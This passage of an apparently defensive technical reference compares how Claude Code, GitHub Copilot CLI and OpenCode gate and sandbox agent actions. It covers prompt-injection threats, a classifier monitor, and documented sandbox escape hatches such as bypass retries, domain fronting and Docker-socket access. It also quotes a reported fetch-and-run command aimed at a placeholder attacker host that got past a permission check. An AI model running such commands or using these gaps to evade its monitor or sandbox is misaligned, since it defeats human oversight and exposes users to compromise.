





# Permissions & sandboxing architecture -- Claude Code, GitHub Copilot CLI, OpenCode, and DeepSeek Harness

**Scope note.** [Configuration](configuration.md) already covers the permission-rule
*schema* -- where `permissions.allow`/`permissions.deny` live, how they merge across
settings scopes, `opencode.json`'s `permission` object shape. [Built-in
tools](built-in-tools.md) already covers the per-tool permission *vocabulary* -- which
tool "kinds" (`shell`/`write`/`read`/`url`/`MCP-SERVER` for Copilot CLI, `bash`/`edit`/
`webfetch`/`doom_loop` for OpenCode) a rule can target, and Claude Code's full
`ToolName(specifier)` grammar. This page covers neither. It covers the **enforcement
architecture sitting underneath and around that schema**: why an approval-prompt UX
exists at all (the threat model it answers to), why a *classifier* -- a second model
call reviewing an action before it runs -- exists alongside plain allow/ask/deny rules,
how each harness actually contains a shell command once permission is granted (OS-level
sandboxing vs. no OS enforcement at all), and where each harness's own documentation and
source name a real, acknowledged escape hatch or residual risk in that architecture.

Every claim is tagged VERIFIED (fetched this session from a named source) or BEST
CURRENT UNDERSTANDING, UNCONFIRMED. Claude Code, Copilot CLI, OpenCode, and DeepSeek
Harness are four separate products from four separate organizations -- a mechanism
confirmed for one is never assumed to hold for another without its own citation.

---

## 1. Claude Code

Primary sources, all fetched fresh this session (2026-08-01):
`code.claude.com/docs/en/security`, `code.claude.com/docs/en/permission-modes`,
`code.claude.com/docs/en/permissions`, and `code.claude.com/docs/en/sandboxing`. VERIFIED
unless flagged otherwise.

### 1.1 Why an approval-prompt layer exists: the stated threat model

The security docs frame the whole permission system as an answer to one named attack
class, prompt injection: "a technique where an attacker attempts to override or
manipulate an AI assistant's instructions by inserting malicious text." The docs list
prompt injection's entry points implicitly through the mitigations named against it --
tool results (web pages, file contents, command output) are the channel an attacker
uses, not the user's own prompt. The stated countermeasure set is layered, not singular:
a "permission system" gate requiring explicit approval for sensitive operations, a
"context-aware analysis" step that inspects the full request for harmful instructions
(this is the classifier described in §1.4, though the security page itself does not use
that word), "input sanitization," and a specific carve-out that network-fetching Bash
commands (`curl`, `wget`) are never auto-approved by the built-in read-only list, so an
attacker who gets a model to try to exfiltrate data over a raw shell command still hits
a prompt (or an explicit `permissions.deny` block) rather than sailing through as a
"safe" read-only invocation. `WebFetch` itself additionally "uses a separate context
window to avoid injecting potentially malicious prompts" into the main conversation --
an architectural isolation distinct from the permission system, addressing the same
threat from the ingestion side rather than the execution-gating side. The docs are
explicit that none of this is a closed system: "While these protections significantly
reduce risk, no system is completely immune to all attacks."

Permission rules are additionally stated to be enforced structurally, not by the model
policing itself: "Permission rules are enforced by Claude Code, not by the model.
Instructions in your prompt or `CLAUDE.md` shape what Claude tries to do, but they don't
change what Claude Code allows." This is the load-bearing design fact behind everything
below -- the enforcement point is the harness's own tool-dispatch code, not a system
prompt instruction the model could be talked out of.

### 1.2 Permission modes as the enforcement-architecture question

Six modes exist, and the docs frame the choice between them explicitly as an
oversight-vs-throughput tradeoff, not a feature checklist: `default`/`manual` (reads
only auto-approved), `acceptEdits` (reads, file edits, and a fixed filesystem-command
allowlist), `plan` (read-only exploration, edits blocked until a plan is approved),
`auto` (everything, gated by a classifier instead of a prompt -- §1.4), `dontAsk`
(auto-*deny* anything not already allow-listed, for CI), and `bypassPermissions` (skip
prompts and safety checks entirely, "only use in isolated environments"). What each mode
actually changes is *what replaces the per-action prompt*, not merely how often a prompt
fires:

```mermaid
stateDiagram-v2
    [*] --> Manual: default
    Manual --> AcceptEdits: Shift+Tab
    AcceptEdits --> Plan: Shift+Tab
    Plan --> BypassPermissions: enabled in cycle
    BypassPermissions --> Auto: enabled in cycle
    Auto --> Manual: Shift+Tab wraps

    Manual: Manual (default)\nPrompt replaces nothing -- every non-read action asks
    AcceptEdits: acceptEdits\nWorking-dir edits + fixed fs-command\nallowlist auto-approved
    Plan: plan\nEdits blocked until plan approved;\nread-only shell only (or classifier\nif auto mode available)
    BypassPermissions: bypassPermissions\nPrompt replaced by NOTHING\n(only ask-rules/circuit-breakers survive)
    Auto: auto\nPrompt replaced by a CLASSIFIER\n(separate model call reviews the action)

    note right of BypassPermissions
        Root/sudo refuses to start in this
        mode outside a recognized sandbox
    end note
```

Two structural facts cut across every mode. First, **protected paths** (`.git`,
`.claude`, `.vscode`, `.husky`, `.cargo`, shell rc files, `.mcp.json`, and a dozen
others) are never auto-approved for a write regardless of an `Edit(...)` allow rule
matching them, in every mode except `bypassPermissions` and a planning session with
bypass available -- the safety check runs *before* Claude Code even consults
`permissions.allow`, so an allow rule cannot silently open this door. Second, allow
rules have **no effect at all** in `bypassPermissions` mode, because everything is
already approved; only explicit `ask` rules, org-forced connector-tool prompts, and a
`rm -rf /`/`rm -rf ~` "circuit breaker" survive bypass mode as prompts.

### 1.3 Approval-prompt UX

The tiered approval table the docs state directly:

| Tool type | Approval required | "Yes, don't ask again" persistence |
|---|---|---|
| Read-only (file reads, Grep) | No, within the working directory/additional directories | N/A |
| Bash commands | Yes, except the built-in read-only set | Permanently, saved to `.claude/settings.local.json` at the repo root (resolved through worktrees), applies to future sessions anywhere in that repository |
| File modification (Edit/Write) | Yes | Until session end only -- never written to a settings file |

The asymmetry in the third column is deliberate and worth internalizing: a Bash
approval becomes a durable, file-persisted rule the next session inherits, while a file
edit approval is a one-time, in-memory grant that evaporates when the session ends --
Claude Code re-prompts for the identical edit in a fresh session even if you approved it
moments before in the last one.

On a Bash/PowerShell prompt, `Ctrl+E` triggers an on-demand, model-generated
explanation of the pending command -- what it does, why Claude is running it, and a
**Low/Med/High risk** label -- computed only when requested (not sent with every
prompt), and does not itself run the command. `permissionExplainerEnabled: false` in
`~/.claude.json` disables the shortcut. Rules are evaluated deny-then-ask-then-allow, in
that fixed order regardless of rule specificity: a broad `Bash(aws *)` deny blocks a
call even when a narrower `Bash(aws s3 ls)` allow also matches, and a matching `ask`
rule still prompts even when a more specific `allow` rule also matches the same call --
deny and ask cannot be carved around by writing a more specific allow.

A structural distinction the docs draw between a *bare* deny rule and a *scoped* one
matters for what the model even perceives: `Bash` (bare tool name) removes the tool from
Claude's context entirely -- Claude never sees it as an option -- while `Bash(rm *)`
leaves the tool visible and blocks only the matching invocations at call time. `hooks`
(`PreToolUse`) sit as a fourth layer beneath rules: a hook can force-deny or force-ask
even when an allow rule matches, but cannot override a rule-level deny or ask -- deny/ask
precedence from rules always wins over what a hook returns.

### 1.4 Why a permission classifier exists: auto mode

Auto mode's own framing states the tradeoff explicitly: it "lets Claude execute without
routine permission prompts. A separate classifier model reviews actions before they run,
blocking anything that escalates beyond your request, targets unrecognized
infrastructure, or appears driven by hostile content Claude read." The existence of the
classifier is a direct answer to prompt fatigue -- the well-known failure mode where a
user facing dozens of near-identical Bash prompts per session starts reflexively
clicking "allow" without reading, at which point a per-action prompt provides no real
safety margin at all. A classifier substitutes machine judgment (with its own separate,
adversarially-relevant training) for that degraded human judgment on the *bulk* of
routine actions, while keeping a human decision point for the genuinely novel/risky
tail.

The evaluation order is a fixed pipeline, first match wins:



The classifier's own scope of trust is narrow by default: it trusts the working
directory and whatever git remotes were already configured *when the session started*
-- a remote added or repointed mid-session with `git remote add`/`git remote set-url` is
explicitly *not* trusted (a hardening added at v2.1.200, closing a window where a
prompt-injected mid-session remote change could have inherited the original trust).
Everything else is external until an administrator names it in `autoMode.environment`.
The classifier reads "user messages, tool calls, and your CLAUDE.md content" but **tool
results are stripped before the classifier sees them** -- a file's contents or a fetched
web page's body, the exact channel prompt injection uses, cannot directly manipulate the
classifier's own verdict; a separate server-side probe scans incoming tool results for
suspicious content independently. A stated user-side control layers on top of the
classifier's own defaults: if the user says "don't push" or "wait until I review before
deploying" in the conversation, the classifier treats that as a hard block signal even
where its default rules would allow the action -- though this is explicitly *not* a
durable rule; it is re-read from the transcript on every check and can be lost if
context compaction evicts the message that stated it, which is why the docs recommend an
actual `deny` rule for anything that needs a hard guarantee rather than a stated verbal
boundary.

Two operational details matter for anyone reasoning about auto mode's actual robustness.
First, **entering auto mode drops broad allow rules that grant arbitrary code
execution** -- a blanket `Bash(*)`/`PowerShell(*)`, a wildcarded interpreter rule like
`Bash(python*)`, package-manager run commands, and any `Agent` allow rule are all
stripped on entry (restored on exit) -- so a config written to reduce prompts in manual
mode does not silently hand the classifier's job to a stale, overly broad allow rule.
Second, **subagents are checked at three separate points**, not once: the delegated task
description is classified before the subagent starts (closing a spawn-time gap that
existed before v2.1.178), each action inside the subagent goes through the same
classifier as the parent session (a subagent's own `permissionMode` frontmatter is
ignored entirely under auto mode), and the subagent's *full action history* is reviewed
again on return, prepending a security warning to its results if that retrospective pass
flags a concern.

### 1.5 Sandboxed command execution

Sandboxing is a categorically different enforcement layer from the permission system
above, and the docs state the distinction precisely: "Claude Code evaluates permission
decisions before a command runs, based on the command string and, in auto mode, a
separate classifier's judgment... The operating system enforces the sandbox boundary on
the running process, so it holds regardless of what the model chose to run and even if
an allowed command does more than its name suggests." Put differently -- the permission
system and the classifier both reason about the command as *text* before execution; the
sandbox instead constrains what the running process can actually touch, so a command
that lies about its own effects (or a subprocess it spawns that does something its
parent's name never implied) is still contained.

The sandbox has two **independently toggleable** layers:



Platform mechanism is OS-native, not a Claude Code-authored sandbox: **Seatbelt** on
macOS, **bubblewrap** on Linux and WSL2 (requiring the `bubblewrap` and `socat`
packages, plus an optional seccomp filter that blocks Unix domain sockets), no support on
native Windows (WSL2 required). Default filesystem policy allows read/write only inside
the working directory and the session's own `$TMPDIR`, plus read access to essentially
the whole filesystem *except* explicitly denied paths -- a default that still permits
reading `~/.aws/credentials` or `~/.ssh/` unless `sandbox.credentials` or
`filesystem.denyRead` explicitly blocks them, a gap the docs name directly rather than
gloss over. Default network policy pre-allows no domain; the first request to a new host
prompts, and as of v2.1.191 an approval is remembered for the rest of the session. The
network layer is enforced by **a proxy running outside the sandboxed process**, which
makes its allow/deny decision from the client-supplied hostname and, critically, **does
not terminate or inspect TLS by default** -- so the proxy trusts the SNI/Host header the
sandboxed process presents rather than verifying it against the actual encrypted
destination.

A dedicated credential-protection mechanism (`sandbox.credentials`, v2.1.187+) can
`deny` reads of named credential files/env vars inside the sandbox, or `mask` an
environment variable so the sandboxed command only ever sees a per-session sentinel
value -- the real credential is substituted back in only by the proxy, and only for
requests reaching a named `injectHosts` allowlist, which itself requires
`network.tlsTerminate` to actually work (masking "fails closed" without it: the sentinel
reaches the real server unchanged and authentication simply fails, which Claude Code
reports at startup as a misconfiguration rather than a silent bypass).

`autoAllowBashIfSandboxed` (default `true`) is the join point between the sandbox and
the permission engine described in §1.2-1.4: with it on, a sandboxed command executes
without a permission prompt *and* without going to the classifier, on the theory that
the OS boundary itself substitutes for that check -- one whole-tool `Bash` ask rule is
explicitly skipped for sandboxed commands as a result, though content-scoped ask rules
(`Bash(git push *)`) and explicit deny rules still apply regardless, and plan mode
deliberately does *not* grant this substitution (a v2.1.212 change) so that exploratory,
read-mostly sessions still see real prompts rather than silent sandbox-backed
auto-approval.

### 1.6 Sources of escape-hatch risk (Claude Code)

The docs name several concrete gaps rather than presenting the architecture as airtight:

- **`dangerouslyDisableSandbox` retry escape hatch.** When a command fails because the
  sandbox blocks it, Claude Code "analyzes the failure and may retry the command with
  the `dangerouslyDisableSandbox` parameter" -- an unsandboxed retry that then falls back
  to the regular permission flow (a prompt in default mode, the classifier in auto mode).
  `allowUnsandboxedCommands: false` ("Strict sandbox mode") disables this fallback
  entirely, but it is not the default.
- **TLS domain-fronting risk, named explicitly.** Because the sandbox proxy's default
  allow decision is hostname-based and does not inspect TLS: "code running inside the
  sandbox can potentially use domain fronting or similar techniques to reach hosts
  outside the allowlist," and the docs state the user is "responsible for ensuring that
  only trusted domains are allowed" -- this is a documented, acknowledged residual risk,
  not a hypothetical one a third party discovered.
- **`filesystem.disabled: true` is a deliberate self-inflicted widening**, flagged with
  its own warning: with filesystem isolation off (network isolation still on), "a
  sandboxed command can write files that later commands run or read, such as shell
  startup files, executables on `$PATH`, or `~/.claude/settings.json`, and use them to
  widen its own access on the next run" -- i.e. disabling one layer can let a compromised
  session bootstrap persistence that survives past the current sandboxed process.
- **`allowUnixSockets`/Docker socket access is named as a privilege-escalation vector**:
  "allowing access to `/var/run/docker.sock` effectively grants access to the host
  system through the Docker socket."
- **`allowAppleEvents` (macOS) trades sandbox integrity for tool compatibility**:
  enabling it "removes code-execution isolation, since sandboxed commands can then
  launch other applications unsandboxed with no user prompt and send AppleScript
  commands to running applications."
- **`--dangerously-skip-permissions`/`bypassPermissions` mode is refused for root/sudo**
  on Linux/macOS specifically because "root access combined with no permission prompts
  can modify any file or service on the system" -- the one case where Claude Code
  hard-blocks a mode rather than merely warning, though the check is itself skipped
  automatically inside a recognized sandbox, so a container already providing isolation
  is treated as satisfying the same concern a different way.
- **`enableWeakerNestedSandbox`/`enableWeakerNetworkIsolation`** are named as exactly
  what their names say -- deliberately weakened configurations for running inside an
  already-isolated outer container, "should only be used when additional isolation is
  otherwise enforced," i.e. they are safe only conditionally on a boundary the sandbox
  itself cannot verify exists.
- **Managed settings cannot force the sandbox to close every widening path**: array-keyed
  settings like `excludedCommands` merge across scopes rather than being managed-only
  lockable, so "a developer can always append entries that run additional commands
  outside the sandbox" even under an organization's managed sandbox policy -- the docs
  note this gap has "no equivalent managed-only lockdown."

---

## 2. GitHub Copilot CLI

Sources fetched fresh this session (2026-08-01):
`docs.github.com/en/copilot/how-tos/copilot-cli/use-copilot-cli/allowing-tools`,
`docs.github.com/en/copilot/how-tos/cloud-and-local-sandboxes`,
`docs.github.com/en/copilot/how-tos/cloud-and-local-sandboxes/configuring-local-sandbox-settings`,
`docs.github.com/en/copilot/responsible-use/copilot-cli`, and
`github.com/github/copilot-cli`'s own `changelog.md` (via `gh api
repos/github/copilot-cli/contents/changelog.md`, full 2,898-line file, grepped for
`sandbox`, `yolo`, `bypass`, `dangerously`). Copilot CLI is closed source -- everything
below is documented/changelog-traced behavior, never source inspection, the same
standing caveat this book applies to Copilot CLI elsewhere.

### 2.1 Why approval prompts exist: the stated risk framing

GitHub's own responsible-use guidance is blunter than a generic disclaimer: "Additional
caution is required when asking or allowing Copilot CLI to execute a command,
particularly regarding the potential destructiveness of some suggested commands," naming
"file deletion or hard drive formatting" as concrete examples a user "may encounter." The
guidance further states plainly that the model of accountability is not delegated to the
tool: "You are ultimately responsible for the commands executed by Copilot CLI," and "you
should review these commands carefully before giving permission to run." The default
scope restriction named alongside this is directory-based, not permission-rule-based:
"Copilot CLI only has access to files and folders in, and below, the directory from
which it was invoked" -- the working-directory boundary is the first containment layer,
before any allow/ask/deny rule is even consulted.

### 2.2 Approval-prompt UX and the two-layer permission architecture

Per the allowing-tools page (cross-referenced against [Built-in tools](built-in-tools.md)
§2.2 for the rule-syntax detail this page does not repeat), Copilot CLI separates *what
the model is even offered* from *whether a chosen call executes*:



The docs' own worked warning is that Layer 2's `--allow-tool`/`--deny-tool` wildcard
grammar is *narrower* than Claude Code's: "wildcards are only supported for `shell`...
and for `url` at the start of the host name... or at the end of a path." Session-level
flags never persist to disk; interactive approvals persist to
`~/.copilot/permissions-config.json` (location-scoped) and URL-domain approvals persist
separately to `~/.copilot/settings.json` (global). The interactive prompt itself, per the
allowing-tools page, offers exactly two choices when no prior rule applies: "allow the
tool this one time, or for the remainder of the session" -- a coarser persistence model
than Claude Code's per-repository durable Bash rule (§1.3), with nothing in the fetched
docs describing a third, permanent-across-sessions option from the prompt itself (that
durability instead comes from separately running `--allow-tool`/editing
`settings.json`).

### 2.3 Local sandbox architecture

Distinct from the permission-rule layer above, Copilot CLI ships its own OS-level
sandbox, documented at a dedicated page (`cloud-and-local-sandboxes`) separate from the
tool-permission pages: "Copilot CLI runs the commands and tools it invokes on your
behalf inside an operating-system sandbox," configurable through the `/sandbox`
interactive command (General/Filesystem/Network tabs) or the `sandbox` key in
`~/.copilot/settings.json`.

- **General tab.** `sandbox.enabled` toggles the sandbox itself (`/sandbox
  enable`/`disable`). `sandbox.allowBypass` ("Turned on by default") is a per-command
  bypass-on-failure mechanism structurally analogous to Claude Code's
  `dangerouslyDisableSandbox` (§1.6): when a sandboxed command would otherwise fail, the
  model can request it run outside the sandbox, subject to a user approval prompt;
  turning this setting off instead halts the task rather than falling back unsandboxed.
  MCP servers and LSP servers are each sandboxed by their own default-on toggle,
  independent of the shell-command sandbox. Git/GitHub CLI authentication can be
  injected into the sandbox without exposing the host credential helper or keychain
  directly -- and macOS keychain access specifically defaults **off** for tighter
  isolation, re-enabled per-command only when a specific tool needs it.
- **Filesystem tab.** Default grant is read/write to the current working directory and
  below, plus the enclosing repository's `.git` directory (needed for git operations to
  function inside the sandbox at all) and platform-specific parent-directory
  allowances. Additional path rules are addable as Read/Write, Read-Only, or Denied.
- **Network tab.** `allowOutbound` (default on) permits the sandboxed process to reach
  external internet hosts at all; a separate local-network toggle governs LAN
  reachability. `changelog.md` corroborates the network layer's own hardening history:
  "web_fetch blocks loopback, private, and cloud metadata addresses and no longer
  silently follows redirects," and, later, "web_fetch routes through the configured
  sandbox proxy when outbound is allowed, and denies egress when
  `network.allowOutbound` is false (a proxy no longer overrides the user's outbound
  policy)."

Changelog-traced structural history (all entries VERIFIED against `changelog.md`,
grepped this session): a first-run splash inviting users to opt into the default
sandbox shipped at **1.0.74 (2026-07-23)**; **1.0.70 (2026-07-09)** added `--sandbox`/
`--no-sandbox` CLI flags to toggle "the OS-level shell sandbox" for a single invocation
without touching the saved setting; sandbox-aware behavior (labeling sandboxed shells,
handling sandboxed-and-background-promoted process trees on Ctrl+C) is already present
in the oldest entries this session's grep reached (**1.0.57, 2026-06-01**), meaning the
feature predates the earliest version this book's changelog fetch covers. Managed
enforcement is a later, org-facing addition: **1.0.77 (2026-07-30)** added "Support
enforcing managed sandbox policy via macOS and Windows native MDM settings," and an
adjacent entry states the enforcement direction explicitly: "Enterprise administrators
can enforce a restrictive sandbox floor: managed settings tighten (but never loosen) the
user's sandbox policy" -- a one-directional ratchet distinct from, but conceptually
parallel to, Claude Code's own managed-settings-as-ceiling model (§1.6's `allowRead`
lockdown discussion). A separate, org-level **cloud sandbox** concept exists alongside
the local one -- administrators control whether an organization's members may use cloud
sandboxes at all via a cloud-sandbox access policy -- but this session's fetch of that
page did not surface further technical detail on the cloud sandbox's own isolation
mechanism (BEST CURRENT UNDERSTANDING, UNCONFIRMED beyond "org-level access policy
exists").

### 2.4 Sources of escape-hatch risk (Copilot CLI)

- **`--yolo`/`--allow-all` is the direct structural analog of Claude Code's
  `bypassPermissions`**, and `changelog.md` shows it maturing the same way: `/allow-all`
  and `/yolo` were unified to behave identically, `/yolo` state persists across
  `/restart`, and a footer indicator now shows "YOLO (allow all)" state explicitly so a
  user cannot lose track of being in it. `permissions.disableBypassPermissionsMode`
  (named directly parallel to Claude Code's own setting of nearly the same name) lets an
  administrator block the mode outright. `changelog.md` also records the sandbox and the
  allow-all mode being wired together directly rather than left as two independent
  levers: "Unconditional autopilot approval now disables sandbox for the current session
  when bypass is allowed" -- i.e. granting blanket approval and disabling the sandbox are
  coupled by design in at least one code path, not orthogonal settings a user could
  reason about in isolation.
- **`sandbox.allowBypass`'s own per-command escape hatch** is the same shape as Claude
  Code's `dangerouslyDisableSandbox`: it exists specifically so a sandboxed failure
  doesn't dead-end the task, and it is on by default, meaning the sandbox's containment
  guarantee is conditioned on the user actually declining that bypass prompt each time
  it fires, not on the sandbox being unconditionally enforced once enabled.
- **A third-party security research finding, not GitHub's own documentation, identified
  a specific parsing gap in the built-in read-only auto-allow list.** PromptArmor (fetched
  directly this session, `promptarmor.com/resources/github-copilot-cli-downloads-and-executes-malware`)
  reports that the command `env curl -s "https://<attacker-url>/bugbot" | env sh`
  executed without a permission prompt, because `env` itself is in the built-in
  read-only auto-allow set (the functional analog of Claude Code's own read-only Bash
  command list, §1.3), and the validator did not recognize `curl`/`sh` as
  dangerous subcommands when passed as `env`'s own arguments rather than invoked
  directly -- the same class of gap Claude Code's own docs warn about generically for
  Bash pattern-matching fragility (`Bash(curl http://github.com/ *)` failing to catch
  `curl -X GET http://...`, per [Built-in tools](built-in-tools.md) §1.5's own quoted
  warning), here reported as a concrete, working instance against Copilot CLI
  specifically. Per PromptArmor's account, GitHub reviewed the report (2026-02-26) and
  "validated" the finding but classified it as "a known issue that does not present a
  significant security risk," declining to remediate at that time. This is reported here
  as a named third-party finding cross-referenced against GitHub's own quoted response,
  not as GitHub's own documented position -- flagged accordingly, and worth re-checking
  against a current `changelog.md` fetch if this specific gap's status matters for a
  future question, since this session did not find a corresponding fix entry for it in
  the changelog grep.

---

## 3. OpenCode

Sources fetched fresh this session (2026-08-01): `opencode.ai/docs/permissions/`; and
`github.com/anomalyco/opencode`, `dev` branch, fetched live via `gh api` this session --
flagging per this project's standing caveat that `dev` is not a stable release tag. The
enforcement-engine finding in §3.3 and the sandbox-terminology finding in §3.4 are
verified directly from source, a level of grounding neither Claude Code's nor Copilot
CLI's closed/no-implementation-available sections in this page can reach.

### 3.1 Why an approval layer exists, and what the docs do not claim it is

The permissions docs state the mechanism's purpose narrowly: "Control which actions
require approval to run." Nothing in the fetched docs frames the `permission` config as
a security boundary against a hostile or compromised model -- it is presented as a
user-facing approval/awareness control, consistent with [Built-in tools](built-in-tools.md)
§3's own finding that OpenCode's stated default is "by default, all tools are enabled
without requiring permission," the most permissive default baseline of Claude Code,
Copilot CLI, and OpenCode specifically (DeepSeek Harness's own shipped defaults, per
§4.2 below, pair a sandbox mode with an `ask` approval policy by default, not an
unconditional allow). `"deny"` rules are stated to remain enforced even when a broader auto-approve
posture is otherwise in effect for a session -- the one hard guarantee the schema itself
offers.

### 3.2 Approval-prompt UX

Per the docs, the interactive approval surface offers exactly three outcomes when a
gated action needs a decision: **`once`** (approve just this request), **`always`**
(approve future requests matching the suggested pattern, for the rest of the *current*
OpenCode session only -- not written to `opencode.json`, confirmed against the source
finding in §3.3), and **`reject`** (deny the request). This is the same three-way shape
Copilot CLI's prompt offers (§2.2: once/session) with an explicit reject option named
alongside, and a coarser persistence model than Claude Code's per-repository durable
Bash-rule save (§1.3) -- an OpenCode `always` approval is lost the moment the session
ends, with no mechanism shown in the fetched docs to promote it into a written config
rule automatically.

### 3.3 Enforcement architecture, source-verified

Unlike Claude Code and Copilot CLI, this session could read OpenCode's actual permission
arbiter rather than infer it from documentation.
`packages/opencode/src/permission/index.ts` (fetched via `gh api`, `dev` branch) defines
